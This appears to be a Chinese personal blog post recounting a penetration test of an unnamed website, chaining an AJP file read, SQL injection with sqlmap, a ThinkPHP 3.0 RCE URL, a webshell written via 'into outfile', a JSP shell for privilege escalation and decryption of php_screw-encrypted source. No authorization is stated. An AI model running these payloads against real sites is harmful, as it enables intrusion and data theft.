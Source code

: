 ```yaml
---
layout:     post
title:      对某一网站的渗透测试
subtitle:   还挺有意思的，注入->getshell->提权->破解php加密(网站防护做的。。)
date:       2020-11-10
author:     BY Diego
header-img: https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/83173792_p0.jpg
tags:
    - 渗透
---
```




## 对网站的渗透



端口扫描

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201105221640.png)



存在`mysql`,`ftp`,`ssh`,`http`,`ajp`,`tomcat` 多个服务



ajp 存在漏洞 `2020-10487 Tomcat apj`

存在任意文件读 ，但没啥用

`WEB-INF/web.xml` 里没有任何东西

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201110192829.png)



app上抓了个包，发现了比较可以的api

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201105224537.png)



对`name`进行注入， 输入`"||1||"` 返回正常数据 ，但无法注释后面的内容，只能`布尔注入`

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201105224905.png)



sqlmap 一把梭

`python .\sqlmap.py -r res --tamper=space2comment --level 5  --dbs --random-agent`

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201105225413.png)



存在读文件

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201105225708.png)



不知道`nginx` 和 `web目录`,默认路径不存在

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201105230233.png)



读到mysql的目录，根据大佬的猜测，同目录下存在nginx 服务，于是读取`***/nginx/conf/nignx.conf`

成功读到配置文件, 存在多个应用 以及对应的路径

```
        location /** {
                autoindex on;
               root /***/***/******;
               index index.html index.htm index.php;
                if (!-e $request_filename) {
                        rewrite ^/xx/(.*)$ /xxxx/admin.php/$1 last;

        break;
                }
        }

        location = /xxx {
               #autoindex on;
               root /xxx/xxx/xxxx;
               index index.html index.htm index.php;
                if (!-e $request_filename) {
                        rewrite ^/xx /xx/index.php last;
                        break;
                }
        }
```



两个后台（其中一个还挂了），和一个应用

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20201105231205660.png)



暴露了 框架和绝对路径

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201105231357.png)

存在目录遍历，发现了个比较有意思的页面`mysql.inc.php`，读取获取了 mysql 的账号密码

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201110204448.png)



企图直接连接，但失败了，

看了看数据库，只能本地登录和指定ip登录

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201110204922.png)





然后发现是`tp3.0`的远古框架 ，根据框架读了一下配置文件（也就是入可文件index.php)



![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201110202818.png)



按照这个配置文件本搭建了一下，目录结构清晰可见

```
├─caches
│  ├─cache
│  ├─data
│  ├─logs
│  └─temp
├─common
├─Conf
├─language
├─library
│  ├─Action
│  ├─****
│  ├─Model
│  └─****
└─themes
```



根据手册 `tp3`的编程风格，确定 项目的文件为`IndexAction.class.php`，通过sql注入读取发现乱码。。。

然后尝试`tp3.0`的RCE

poc如下

```
http://**/index.php/Index/index/name/$%7B@phpinfo%28%29%7D
```

直接打不行

仔细看了一下 发现必须为精简模式下才可以使用,即index.php得包含如下

```php
define('MODE_NAME','Lite');
```



未果 想起还有管理的账号密码

通过之前注入拿到数据库，找到管理员的账号密码，然后登入（后台有点东西

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201105231738.png)



后台同样存在注入漏洞（随便一个地方就有），并存在 联合注入，并且具有写文件权限

```SQL
0 union select tohex('webshell'),1,2 into outfile '/**/**/**/shell.php'
```



蚁剑连接上

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20201105232648033.png)



但自己是 www用户

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201105232727.png)



查看进程

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201106002356.png)

发现root启动的 tomcat

尝试往tomcat 写 jsp马

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201106002609.png)



但是没有写权限

在检索可操作文件时，存在所有服务的一个日志文件夹

发现tomcat日志可读（心想 tomcat不是个空壳来着，怎么还有日志

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201106002957.png)



![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201106002909.png)



看日志才发现还运行服务

检索对应文件

发现在tomcat外的目录 部署了服务并运行在8080上，且属性位777，写个jsp马

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201106003150.png)



![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201106003327.png)



看了看源码 （蒙🖊 怪不得是乱码

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201110195813.png)



根据`PM9SCREW` 检索了一下 是`screw` 加密

根据教程先获取 编译好的`php_screw.so` 文件

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201110200225.png)



下载下来拖到`IDA`

找到`_pm9screw_ext_fopen` 加密函数

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201110200324.png)



f5

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201110200413.png)



跟进



![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201110200443.png)





进入红色部分发现`key`（打码部分



![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201110200528.png)





导出

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201110200645.png)



然后用

`https://github.com/firebroo/screw_decode` 进行解密



克隆下来 修改`screwdecode.c`

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201110200934.png)



然后编译`make`

`./decode ./xx.php`

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201110201058.png)



解密完成

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201110201214.png)

